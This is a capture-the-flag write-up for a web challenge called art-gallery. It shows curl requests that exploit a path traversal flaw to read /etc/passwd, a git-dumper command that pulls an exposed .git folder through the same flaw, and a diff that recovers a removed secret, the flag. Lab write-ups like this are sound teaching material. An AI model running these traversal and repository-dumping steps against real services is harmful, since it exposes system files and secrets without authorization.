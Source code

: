 #### Challenge:

bosh left his [image gallery](https://art-gallery.web.actf.co) service running.... quick, git all of his secrets before he deletes them!!!
[source](./index.js ":ignore")

---

#### Solution:

Trying out the site I noticed that the `member` parameter used for loading the image contains `Local File Inclusion (LFI)` by trying `../../../etc/passwd`:

```bash
curl "https://art-gallery.web.actf.co/gallery?member=../../../etc/passwd"
```

Noticing `git all of his secrets` in the challenge description, we used [git-dumper](https://github.com/arthaud/git-dumper) to dump the art-gallery app repository:

```bash
python3 git_dumper.py  https://art-gallery.web.actf.co/gallery\?member\=../.git/ ~/art-gallery
```

Looking at the commits, we see one with the name `remove vital secrets`. Diffing it to its predecessor reveals the flag:

```bash
git diff 56449caeb7973b88f20d67b4c343cbb895aa6bc7 713a4aba8af38c9507ced6ea41f602b105ca4101 | grep actf
```

---

<details><summary>FLAG:</summary>

```
actf{lfi_me_alone_and_git_out_341n4kaf5u59v}
```

</details>
<br/>
